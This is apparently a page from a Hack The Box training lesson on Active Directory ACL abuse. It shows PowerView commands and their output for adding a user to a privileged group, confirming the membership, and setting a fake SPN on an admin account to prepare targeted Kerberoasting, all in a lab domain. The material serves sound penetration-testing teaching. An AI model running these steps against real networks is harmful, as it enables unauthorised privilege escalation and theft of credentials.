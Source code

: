   ACL Abuse Tactics

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```

A quick check shows that our addition to the group was successful.

#### Confirming damundsen was Added to the Group

  ACL Abuse Tactics

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed

<SNIP>

damundsen
dpayne
```

At this point, we should be able to leverage our new group membership to take control over the `adunn` user. Now, let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.

We must be authenticated as a member of the `Information Technology` group for this to be successful. Since we added `damundsen` to the `Help Desk Level 1` group, we inherited rights via nested group membership. We can now use [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) to create the fake SPN. We could use the tool [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

#### Creating a Fake SPN

  ACL Abuse Tactics

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```
